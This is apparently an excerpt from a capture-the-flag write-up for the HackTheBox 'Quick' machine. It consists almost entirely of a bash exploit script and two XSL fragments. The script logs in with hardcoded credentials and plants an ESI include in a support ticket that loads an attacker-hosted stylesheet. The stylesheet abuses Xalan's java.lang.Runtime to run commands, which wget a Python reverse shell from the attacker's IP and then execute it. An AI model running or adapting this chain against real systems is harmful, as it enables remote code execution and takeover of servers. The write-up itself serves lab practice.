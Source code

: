 ```bash
# Put this file into the cache, I think this is required to have happened at least once
curl --silent http://quick.htb:9001/index.php > /dev/null

# Login and get a session cookie
sess=$(curl -v 'http://quick.htb:9001/login.php' --data 'email=elisa%40wink.co.uk&password=Quick4cc3%24%24' 2>&1 | grep PHPSESSID | sed 's/.*PHPSESSID=//' | sed 's/; Path=\///')
echo "Session cookie ${sess}"

# Grab a ticket value so we don't hit an existing one
tkt=$(curl 'http://quick.htb:9001/ticket.php' -H "Cookie: PHPSESSID=${sess}" | grep TKT | sed 's/.*value="TKT-//' | sed 's/"\/>//')
echo "Got ticket number ${tkt}"

# Create the ticket with the esigate exploit includes
curl --silent 'http://quick.htb:9001/ticket.php' -H "Cookie: PHPSESSID=${sess}" --data "title=title&msg=%3Cesi%3Ainclude+src%3D%22http%3A%2F%2Flocalhost%3A9001%2Findex.php%22+stylesheet%3D%22http%3A%2F%2F${htbip}%2Fquick%2Fevil.xsl%22%3E%0D%0A%3C%2Fesi%3Ainclude%3E&id=TKT-${tkt}"
echo "Ticket with esigate exploit created"

# XXE to download the python rev shell
cat part1.xsl > evil.xsl
echo "<xsl:variable name=\"cmd\"><![CDATA[wget http://${htbip}/quick/rev-shell.py]]></xsl:variable>" >> evil.xsl
cat part2.xsl >> evil.xsl
curl --silent "http://quick.htb:9001/search.php?search=${tkt}" -H "Cookie: PHPSESSID=${sess}"
echo "Python reverse shell downloaded"

# XXE to run the python reverse shell
cat part1.xsl > evil.xsl
echo "<xsl:variable name=\"cmd\"><![CDATA[python rev-shell.py]]></xsl:variable>" >> evil.xsl
cat part2.xsl >> evil.xsl
curl --silent "http://quick.htb:9001/search.php?search=${tkt}" -H "Cookie: PHPSESSID=${sess}"
echo "Connecting..."
```

The parts of the `evil.xsl` file referenced in the script are as follows:

```
part1.xsl
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>

part2.xsl
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
